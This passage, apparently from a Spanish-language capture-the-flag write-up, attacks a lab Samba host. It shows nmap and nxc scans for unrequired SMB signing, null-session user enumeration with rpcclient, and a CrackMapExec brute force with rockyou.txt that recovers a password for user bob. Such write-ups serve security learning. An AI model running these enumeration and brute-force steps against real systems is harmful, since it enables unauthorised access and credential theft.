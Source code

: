 Teniendo en cuenta que en el scan de **nmap** se había encontrado un mensaje con una posible vulnerabilidad de que el servicio tenía el signing activado pero no era requerido: ` Message signing enabled but not required`, se intentó acceder sin usuario y sin contraseña pero los esfuerzos no dieron resultados positivos.

![Denied](https://i.imgur.com/UXUrDjg.png)

En base a esto se realizó otro scaneo con **nxc** y **Nmap** implementando scripts para enumerar directamente el puerto **445** y ver qué resultados se obtenían.

Nxc:

```bash
> nxc smb 172.17.0.2/24 --gen-relay-list relay_list.txt
SMB         172.17.0.2      445    AEE0F4D201AC     [*] Unix - Samba (name:AEE0F4D201AC) (domain:AEE0F4D201AC) (signing:False) (SMBv1:False)
Running nxc against 256 targets ----------------- 100% 0:00:00

```

Nmap:

```bash
> nmap --script smb-security-mode.nse,smb2-security-mode.nse -p445 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-15 17:05 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000046s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:42:AC:11:00:02 (Unknown)

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```

Obteniendo esto se procede a utilizar el **rpcclient** para realizar una enumeración un poco más enfocada a ejecutar funciones de **Microsoft RPC**, de esta manera se obtuvo un par de usuarios.

```bash
> rpcclient -U '' -N 172.17.0.2
rpcclient $> querydispinfo and enumdoumusers
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: james	Name: james	Desc:
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: bob	Name: bob	Desc:
rpcclient $>
```

Lo siguiente fue realizar ataques de fuerza bruta para encontrar contraseñas de algunos de estos usuarios, primeramente se pensó en **Hydra** pero no soporta SMBv1 por lo que se consideró más apropiado el uso de **CrackMapExec** teniendo en cuenta un posible entorno de windows.

```bash
> crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt | grep -v -E 'LOGON_FAILURE'

SMB                      172.17.0.2      445    AEE0F4D201AC     [*] Windows 6.1 Build 0 (name:AEE0F4D201AC) (domain:AEE0F4D201AC) (signing:False) (SMBv1:False)
SMB                      172.17.0.2      445    AEE0F4D201AC     [+] AEE0F4D201AC\bob:star
```
